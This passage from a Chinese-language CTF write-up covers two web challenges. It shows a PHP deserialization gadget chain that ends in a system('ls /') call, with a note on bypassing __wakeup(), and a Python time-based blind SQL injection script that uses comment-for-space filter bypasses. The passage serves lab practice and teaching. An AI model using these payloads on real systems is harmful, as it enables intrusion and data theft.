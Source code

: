 ```php
class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = new Start();
$b = new Pwn();
$c = new Reverse();
$d = new Web();
$e = new Crypto();
$a->errMsg = $e;
$a->errMsg->obj = $c;
$a->errMsg->obj->func = $b;
$a->errMsg->obj->func->obj = $d;
$a->errMsg->obj->func->obj->func = 'system';
$a->errMsg->obj->func->obj->var = 'ls /';
echo(serialize($a));
?>
```

发现会报错

![image-20231208141212279](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208141212279.png)

最后一句话的触发条件是字符串经过反序列化之后，并且后续的析构函数不会被运行

这就相当于绕过`__wakeup()`了呗，改一下元素属性即可

![image-20231208141440029](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231208141440029.png)

最后的}去掉也行



## midsql

依旧是盲注，过滤了空格，用/**/绕过

根据提示，这道题似乎没有引号闭合啥的，那就直接注

注意到没有正确错误的回显，那应该是时间盲注

```python
import requests

res = ''
last = ''
for i in range(1, 1000):
    for j in range(127, 31, -1):
        url = r'http://9575fe33-9d33-43fc-8ade-58e1ba32fd25.node4.buuoj.cn:81/?id='
        payload = rf'1/**/and/**/if((ascii(substr((select/**/group_concat(schema_name)/**/from/**/information_schema.schemata),{i},1))>{j}),sleep(3),0)' # information_schema,mysql,performance_schema,sys,test,ctf
        # payload = rf'1/**/and/**/if((ascii(substr((select/**/database()),{i},1))>{j}),sleep(3),0)'
        # payload = rf'1/**/and/**/if((ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/"ctf"),{i},1))>{j}),sleep(3),0)'
```